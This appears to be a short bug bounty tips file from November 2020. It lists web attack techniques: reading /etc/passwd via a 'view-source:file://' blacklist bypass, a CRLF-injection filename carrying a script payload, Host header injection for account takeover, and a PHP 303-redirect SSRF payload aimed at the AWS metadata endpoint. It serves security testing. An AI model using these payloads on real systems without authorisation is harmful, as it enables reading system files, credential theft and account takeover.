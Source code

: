 # Bug Bounty Tips File -4
📅 06-Nov-2020
## Browser-Based application LFI
`file:///etc/passwd` blacklisted? Use `"view-source:file:///etc/passwd"`
"view-source" is often forgotten by developers in blacklists.
## bypassing file content restrictions:
in some cases you can do a crlf injection via filename
`x.png%22%0d%0a%0d%0a%0d%0a<script>alert(1)</script>`
***this will cause Content-Disposition to throw its content into the file***

📅 10-Nov-2020
## Race Condition
***https://hackerone.com/reports/994051***
## Host Header Injection
It was blocking all the urls except for the websites hosted with the same provider. In this case Fastly. 
```js
host : http://bbc.com
```
**worked**                    
Now attacker can register a domain with Fastly and use HHI to ATO using forgot password ! 
## SSRF Bypass via 303 redirect
*Host the following code in your server and use your server ip to ping at where you feel ssrf is found*
```php
<?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
```
***Note :*** This code is to fetch aws metadata you can edit the location to your target location. For more info **https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb** 
